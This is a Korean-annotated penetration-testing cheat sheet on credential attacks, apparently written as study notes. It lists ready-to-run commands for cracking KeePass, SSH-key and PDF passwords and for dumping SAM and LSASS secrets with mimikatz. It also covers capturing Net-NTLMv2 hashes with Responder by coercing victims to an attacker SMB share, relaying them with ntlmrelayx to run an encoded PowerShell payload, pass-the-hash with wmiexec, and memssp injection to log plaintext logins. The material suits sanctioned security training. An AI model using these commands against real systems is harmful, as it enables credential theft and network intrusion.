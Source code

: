 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```
---
# Keepass Dump file Cracking
```
python3 poc.py <file.dmp>

# sudo apt install keepassxc
keepassxc <file.kdbx>
```
- https://github.com/matro7sh/keepass-dump-masterkey
---
 
# SSH Private Key Passphrase Cracking

``` bash
ssh2john id_rsa > ssh.hash
```
``` bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
``` bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

---

# Cracking NTLM
``` bash
.\mimikatz.exe
```
``` bash
privilege::debug
```

- `privilege::debug` 명령은 디버그 권한을 활성화합니다.
- 이 권한이 있어야 LSASS 프로세스에 접근하여 자격 증명을 덤프할 수
    있습니다.

``` bash
token::elevate
```

-   토큰을 SYSTEM 권한으로 상승시켜, 보안 제한 없이 시스템 자원에
    접근합니다.


``` bash
lsadump::sam
```

-   SAM(Security Account Manager) 데이터베이스에서 사용자 계정의 해시를
    추출합니다.
-   출력된 해시는 `USERNAME:RID:LM_HASH:NTLM_HASH::: 형식`입니다.


``` bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

---
# Cracking Net-NTLMv2
``` bash
sudo responder -I tap0
```

-   Responder는 NTLM 인증 요청을 가로채서 해시를 수집하는
    도구입니다.
-   `-I tap0` : 사용할 네트워크 인터페이스 지정 (예: `eth0`, `wlan0`,
    `tap0`)
- Responder는 SMB, HTTP, FTP 등 프로토콜을 이용한 인증 요청에
응답해, 클라이언트가 보낸 Net-NTLMv2 해시를 캡처합니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유 경로에 접근하게 하여 인증 절차를 유도합니다.
-   이 과정에서 NTLM 인증이 발생하며, Responder가 해시를 가로챕니다.

> 예: 사용자가 `dir \\192.168.119.2\test` 명령을 실행하면, SMB 인증
> 요청이 발생.

``` bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
---
# Relaying Net-NTLMv2
``` bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

-   **impacket-ntlmrelayx**: NTLM 인증을 다른 서비스로 릴레이하여 권한을
    획득하는 도구입니다.
-   `--no-http-server` : HTTP 서버 기능 비활성화 (SMB 릴레이만 사용)
-   `-smb2support` : SMBv2 프로토콜 지원 활성화
-   `-t 192.168.50.212` : 릴레이할 타겟 서버 IP
-   `-c "powershell -enc ..."` : 인증 성공 시 실행할 명령 (여기서는
    Base64 인코딩된 PowerShell 명령)

- 공격자는 Net-NTLMv2 인증 요청을 가로채서, 이를 SMB 서비스가 열려 있는
다른 타겟으로 전달합니다.
타겟이 해당 인증을 신뢰하면, 명령 실행 권한을 얻게 됩니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유에 접근하게 하여 SMB 인증을
    유도합니다.
-   인증 요청은 공격자의 시스템을 거쳐 릴레이 타겟(`192.168.50.212`)로
    전달됩니다.
-   인증이 성공하면 지정한 PowerShell 명령이 타겟에서 실행됩니다.

---
# Windows Credential Guard enabled
## 1. 시스템 정보 확인

``` powershell
Get-ComputerInfo
```

-   현재 시스템의 OS 버전, 빌드 번호, 보안 설정 등을 확인합니다.
-   Credential Guard가 활성화되어 있는지 파악하는 데 도움이 됩니다.

## 2. Mimikatz 실행

``` bash
.\mimikatz.exe
```

## 3. 디버그 권한 획득

``` bash
privilege::debug
```

-   SeDebugPrivilege를 활성화하여 LSASS 등의 민감한 프로세스에 접근할 수
    있도록 합니다.
-   관리자 권한 필요.

## 4. 자격 증명 추출 시도

``` bash
sekurlsa::logonpasswords
```

-   현재 로그인된 세션의 사용자 이름, 도메인, 해시, 평문 비밀번호 등을
    덤프합니다.

-   **주의**: Credential Guard 활성화 시 평문 비밀번호 추출이 제한될 수
    있습니다.


## 5. Impacket을 이용한 원격 명령 실행

``` bash
impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
```


## 6. MemSSP(메모리 보안 지원 공급자) 주입

``` bash
misc::memssp
```

-   Mimikatz의 `memssp` 모듈은 LSASS에 SSP(Security Support Provider)를
    주입하여 이후 로그인 자격 증명을 `mimilsa.log` 파일에 기록하게
    합니다.
-   새로운 로그인 시도가 발생하면 해당 자격 증명이 평문으로 로깅됩니다.

------------------------------------------------------------------------

## 7. 캡처된 자격 증명 확인

``` bash
type C:\Windows\System32\mimilsa.log
```

-   MemSSP로 캡처된 평문 자격 증명을 확인합니다.
---
# Cracking pdf password
```bash
pdf2john Infrastructure.pdf > pdf.hash

john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 pdf.hash
```
